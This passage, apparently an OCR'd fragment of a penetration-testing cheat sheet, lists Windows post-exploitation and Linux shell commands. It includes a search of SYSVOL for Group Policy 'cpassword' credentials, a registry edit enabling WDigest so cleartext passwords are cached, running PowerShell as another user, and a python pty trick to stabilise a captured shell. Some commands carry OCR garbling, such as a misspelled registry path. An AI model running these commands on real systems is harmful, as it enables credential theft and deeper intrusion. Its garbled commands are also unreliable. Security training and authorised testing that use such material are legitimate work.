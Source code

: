 Then run

```
ftp -v -n -s:ftp.txt
```

#### List out all schedule tasks

```
schtasks /query /fo LIST /v
```

And extra

| # Find GPP Passwords in SYSVOL |
| ------------------------------ |

| findstr /S cpassword $env:logonserver\sysvol\\\*.xml |
| ---------------------------------------------------- |

| findstr /S cpassword %logonserver%\sysvol\\\*.xml (cmd.exe) |
| ----------------------------------------------------------- |

|   |
| - |

| # Run Powershell prompt as a different user, without loading profile to the machine \[replace DOMAIN and USER] |
| -------------------------------------------------------------------------------------------------------------- |

| runas /user:DOMAIN\USER /noprofile powershell.exe |
| ------------------------------------------------- |

|   |
| - |

| # Insert reg key to enable Wdigest on newer versions of Windows |
| --------------------------------------------------------------- |

reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg\_DWORD /d 1



## Linux Exploitation

### Spawing a intereactive TTY linux shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
export PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin
```

Then Ctrl-Z

```
stty raw -echo 
fg
```
